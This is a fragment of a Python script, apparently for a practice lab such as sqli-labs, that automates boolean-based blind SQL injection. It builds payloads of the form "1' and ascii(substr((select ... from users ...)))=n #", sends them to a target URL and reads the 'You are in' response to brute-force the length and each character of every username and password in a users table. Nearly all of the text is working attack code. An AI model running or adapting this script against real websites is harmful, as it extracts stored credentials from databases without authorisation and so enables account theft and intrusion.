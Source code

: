 ```python
        break
    else:
        num += 1


def length(num):
    user_length = 0
    while True:
        param = "1' and length(substr((select username from users limit " + str(num) + ",1),1))=" + str(
            user_length) + " #"
        response = request.urlopen(url + parse.quote(param)).read().decode()

        if re.search("You are in", response):
            # print(user_length)
            
            return user_length
        else:
            user_length += 1


def Name(value1, value2):
    for n in range(num):
        columns_name = ""
        for l in range(length(n)):  # 表的长度
            
            for a in range(0, 128):  # 爆破表
                
                param = "1' and ascii(substr((select " + value1 + " from users limit " + str(n) + ",1)," + str(
                    l + 1) + ",1)) =" + str(a) + " #"
                response = request.urlopen(url + parse.quote(param)).read().decode()
                if re.search("You are in", response):
                    columns_name += chr(a)
                    break
        print("[*]:" + columns_name, end=":")
        columns_name2 = ""
        for l in range(length(n)):  # 表的长度
            
            for a in range(0, 128):  # 爆破表
                
                param = "1' and ascii(substr((select " + value2 + " from users limit " + str(n) + ",1)," + str(
                    l + 1) + ",1)) =" + str(a) + " #"
                response = request.urlopen(url + parse.quote(param)).read().decode()
                if re.search("You are in", response):
                    columns_name2 += chr(a)
                    break
        print(columns_name2)


Name("username", "password")
```
